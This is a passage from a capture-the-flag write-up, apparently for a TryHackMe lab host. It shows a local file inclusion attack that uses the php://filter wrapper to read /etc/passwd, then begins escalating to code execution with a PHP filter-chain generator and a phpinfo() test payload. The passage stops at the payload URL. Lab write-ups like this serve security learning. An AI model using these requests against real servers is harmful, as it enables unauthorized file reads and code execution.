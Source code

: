 I noticed the file parameter was loading file contents:
`http://cheese.thm/secret-script.php?file=php://filter/resource=`

- Exploitation Method: `php://filter` wrapper to read files.

I tried reading a system file:
`http://cheese.thm/secret-script.php?file=php://filter/resource=/etc/passwd`

![Passwd_File](images/LFI.png)

The contents of `/etc/passwd` were displayed!

### LFI -> RCE:

Since we confirmed LFI vulnerability, the next step was to upgrade it to Remote Code Execution using PHP filter chains.

using `php_filter_chain_generator.py`  from [synacktiv](https://github.com/synacktiv/php_filter_chain_generator).


1. Testing with `phpinfo()`:

First, I generated a payload to execute `phpinfo()` and confirm we can run PHP code:
```bash
└─$ python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'


[+] The following gadget chain will generate the following code : <?php phpinfo();?> (base64 value: PD9waHAgcGhwaW5mbygpOz8+)
[PAYLOAD]

```

URL: `http://cheese.thm/secret-script.php?file=[PAYLOAD]`

